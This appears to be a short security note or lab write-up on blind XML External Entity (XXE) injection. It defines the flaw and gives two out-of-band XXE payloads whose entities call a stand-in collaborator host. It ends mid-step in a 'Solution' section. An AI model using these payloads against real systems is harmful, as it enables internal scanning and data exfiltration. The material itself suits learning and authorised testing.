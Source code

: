 #XXE #xml 
## What is it?

Blind XML External Entity (XXE) vulnerabilities arise when an application processes XML input that includes references to an external entity, but does not return the outcome of the entity processing in the response. This makes the exploitation less direct since the attacker does not receive an immediate output from the injected payload. Blind XXE can be exploited to exfiltrate data, scan internal systems, or execute remote requests within the network that hosts the vulnerable application.

## Exploitation

Blind XXE using OOB

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://collaborator"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

Blind XXE using OOB with XML parameter entities

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://collaborator"> %xxe; ]>
```

Solution

`1. Check the stock of an item and send the POST request with XML to repeater